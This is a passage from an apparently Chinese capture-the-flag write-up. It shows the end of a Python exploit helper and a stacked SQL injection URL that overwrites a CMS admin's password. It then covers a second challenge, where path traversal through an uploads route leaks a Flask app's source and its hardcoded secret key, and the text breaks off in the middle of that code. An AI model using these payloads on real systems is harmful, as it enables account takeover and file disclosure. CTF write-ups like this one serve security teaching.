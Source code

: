 ```python
    r=access(payload)
    print(payload)
    return r.text


app.run()
```



直接访问:

`http://127.0.0.1:5000/?exp=1;replace INTO zzz_user(uid,u_gid, u_lid, u_onoff, u_order, sex, username, password, question, answer, regtime, truename, face, province, city, district, address, post, tel, mobile, email, qq, u_desc, adminrand, lastlogintime, lastloginip, logincount, sysinfo, points, balance) VALUES (1, 1, 1, 1, 0, '%E7%94%B7', 'admin', '1ccbbb718e0e9c3a', '8TBRJ2H5NXW57EVF', 'S8DDQC9YV494G84Q', '', '%E5%88%9B%E5%A7%8B%E4%BA%BA', 'face01.png', '', '', '', '', '', '', '', '', '', '', '6a79122eab1e8abd10bcabd91ebbc36c', '2020/11/22 17:25:13', '127.0.0.1', 6, '', 0, 0);--`

修改admin密码为041676

没有写权限，但是我们只要读到flag就好了，利用这个cms的模板渲染机制，修改模板为我们想读的文件/flag，来拿到flag

## profile system

一看就是一个flask(它的cookie)，文件上传可以目录穿越，猜测后端访问uploads路由是这样的：`/uploads/<path:path>`
直接读取`/uploads/../app.py`

app.py

```python
from flask import Flask, render_template, request, flash, redirect, send_file,session,render_template_string
import os
import re
from hashlib import md5
import yaml


app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = os.path.join(os.curdir, "uploads")
app.config['SECRET_KEY'] = 'Th1s_is_A_Sup333er_s1cret_k1yyyyy'
ALLOWED_EXTENSIONS = {'yaml','yml'}

def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower()

@app.route("/")
def index():
    session['priviledge'] = 'guest'
    return "home"

@app.route("/upload", methods=["POST"])
def upload():
    file = request.files["file"]
    if file.filename == '':
        flash('No selected file')
        return redirect("/")
    elif not (allowed_file(file.filename) in ALLOWED_EXTENSIONS):
        flash('Please upload yaml/yml only.')
        return redirect("/")
    else:
        dirname = md5(request.remote_addr.encode()).hexdigest()
        filename = file.filename
        session['filename'] = filename 
        upload_directory = os.path.join(app.config['UPLOAD_FOLDER'], dirname)
```
